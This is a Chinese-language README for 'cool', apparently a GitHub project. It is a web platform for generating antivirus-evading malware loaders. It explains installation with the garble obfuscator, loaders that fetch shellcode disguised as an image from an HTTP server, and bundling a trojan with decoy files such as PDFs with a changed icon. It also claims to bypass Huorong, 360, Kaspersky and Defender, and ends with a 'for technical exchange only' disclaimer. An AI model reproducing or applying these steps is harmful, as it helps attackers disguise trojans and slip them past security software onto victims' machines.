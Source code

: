 # cool
时间线：
- Golang Gin 框架写的免杀平台- (2021.11.12)
- Golang Gin 框架写的免杀平台，更新捆绑免杀- (2021.11.20)
- 增加自定义捆绑，修复一个小bug- (2021.11.22)
- 上传"compile.exe_备份"，在\service\executable\下，如果生成免杀是0kb的话就把原来的compile.exe删掉，把"compile.exe_备份"改成compile.exe，这样的话混淆效果会变差。。。但是至少能用了-（2021.11.25）
## 安装
1. 安装Go环境，版本要**1.17**及以上；
2. 如果是首次安装Go环境，安装完毕后要配置代理，执行以下这两条命令:
 -  **go env -w GO111MODULE=on** 
 -  **go env -w GOPROXY=https://goproxy.io,direct** 
3. 完毕后执行 **go install mvdan.cc/garble@latest** ；
4. 下载本项目到D盘根目录，文件夹名字改为cool；
5. 运行cool.exe；
6. 访问 **http://127.0.0.1:9000** 。

## 使用
为减去浏览器扫描的时间，故生成的文件格式为txt，使用时只需要把后缀修改为前端提示的后缀就可以了。
### 1. 加密1
- 直接执行exe。
### 2. 加密2
- 直接执行exe。
### 3. 分离1(houqing) 
- 用python起一个HTTP服务(python -m http.server 8080)，
- 把图片放到起http服务的目录下，
- 执行exe 参数为http服务的图片路径（xxx.exe http://127.0.0.1:8080/a.jpg) 。
### 4. 分离2
#### 上线方式1
- 用python起一个HTTP服务(python -m http.server 8080)，
- 把图片放到起http服务的目录下，
- 执行exe 参数为http服务的图片路径（xxx.exe http://127.0.0.1:8080/a.jpg) 。
#### 上线方式2
- 执行xxx.exe 参数为shellcode.txt里的内容 。
### 5. 捆绑上线
#### 捆绑内置免杀马
- 填写信息(免杀方式、listeners或者shellcode等)，
- 上传需要和木马捆绑的文件，
- 下载完毕后将后缀改为exe，
- 图标自行修改。
#### 捆绑自定义木马
- 第一个文件选择木马(木马.exe)，第二个文件选择要捆绑的文件(如pdf等)
- 点击生成

目前火绒、360、卡巴斯基、def全过；先这样用，不能bypass了再说，更新频率看star数量🐕。

## 声明：仅用于技术交流，请勿用于非法用途。

## Star History

[![Star History Chart](https://api.star-history.com/svg?repos=Ed1s0nZ/cool&type=Timeline)](https://star-history.com/#Ed1s0nZ/cool&Timeline)
